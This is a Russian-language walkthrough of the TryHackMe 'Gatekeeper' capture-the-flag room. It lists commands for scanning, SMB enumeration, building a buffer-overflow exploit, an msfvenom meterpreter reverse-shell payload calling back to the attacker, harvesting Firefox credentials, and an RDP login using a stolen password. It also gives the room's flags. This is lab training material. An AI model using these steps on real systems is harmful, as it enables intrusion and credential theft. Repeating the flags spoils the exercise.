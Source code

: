 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Gatekeeper](https://tryhackme.com/r/room/gatekeeper) 

Всего 2 задания:
## Задание 1
Разверните машину, когда будете готовы освободить Gatekeeper.

**Записи не принимаются для этого задания**

### Ответьте на вопросы ниже
Ответ не требуется
```commandline
Ответ не нужен
```

## Задание 2
Победите Привратника, чтобы разорвать цепи. Но будьте осторожны, на другой стороне вас ждет огонь.

### Ответьте на вопросы ниже
Найдите и найдите флаг пользователя.
```commandline
nmap -sSCV -p- <IP>
nc <IP> 31337
smbclient -L //<IP>
smbclient -L \\\\<IP>\\Users
cd Share
dir
get gatekeeper.exe
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 39654138
!mona compare -f C:\mona\oscp\bytearray.bin -a 02AB19F8

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b “\x00\x0a” -f c
msfconsole 
use exploit/multi/handler
set LHOST <YOUR IP>
set PAYLOAD windows/meterpreter/reverse_tcp
run
sysinfo
ls
cat user.txt.txt
```
```commandline
{H4lf_W4y_Th3r3}
```
Найдите и найдите корневой флаг
```commandline
use post/multi/gather/firefox_creds
options
sessions
set SESSION 1
run
ls

sudo xfreerdp /u:mayor /p:8CL7O1N78MdrCIsV /cert:ignore /v:<IP>
```
```commandline
{Th3_M4y0r_C0ngr4tul4t3s_U}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)